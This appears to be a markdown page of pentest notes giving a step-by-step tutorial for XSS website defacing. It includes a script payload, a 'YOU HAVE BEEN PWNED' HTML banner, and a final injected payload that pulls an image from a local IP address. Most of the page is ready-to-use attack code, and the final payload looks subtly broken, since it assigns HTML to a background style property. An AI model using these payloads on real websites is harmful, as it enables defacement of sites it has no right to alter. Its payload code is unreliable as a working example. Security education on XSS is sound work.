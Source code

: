 # XSS Defacing Attacks.
One of the most common attacks usually used with stored XSS vulnerabilities is website defacing attacks. Defacing a website means changing its look for anyone who visits the website.
We can utilize injected JavaScript code (through XSS) to make a web page look any way we like.

## Perfarming Defacing.
- To perform a XSS Defacing attack the first step must be to find a payload. PE:
```javascript
<script>document.body.style.background = "#141d2b"</script>
```
- After that we have to write the HTML document that we want to deploy into the target, eg: 
 ```html
<center>
    <h1 style="color: white">YOU HAVE BEEN PWNED</h1>
    <body style="background-color:#171717">
    <p style="color: white">
        <img src="IMGURL" height="400px">
    </p>
    <h2>XSS DEFACING</h2>
    <h3>by TBHD </h3>
</center>
```
- We will must minify the HTML code into a single line:
```html
<center><h1 style="color: white">YOU HAVE BEEN PWNED</h1><body style="background-color:#171717"><p style="color: white"><img src="IMGURL" height="400px"></p><h2>XSS DEFACING</h2><h3>by TBHD </h3></center>
```
- The last step is to add the minified HTML code to our previous XSS payload following the pattern `<script>document.body.style.background='HTML'</script>`.</br>
__The final payload should be as follows:__
```html
<script>document.body.style.background='<center><h1 style="color: white">YOU HAVE BEEN PWNED</h1><body style="background-color:#171717"><p style="color: white"><img src="http://192.168.1.54/skull.jpg" height="400px"></p><h2>XSS DEFACING</h2><h3>by TBHD </h3></center>'</script>
```
__XSS DEFACING FINAL RESULT__
<img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/138ab5c6-9d62-4038-9c67-442ba4040264" width="450">




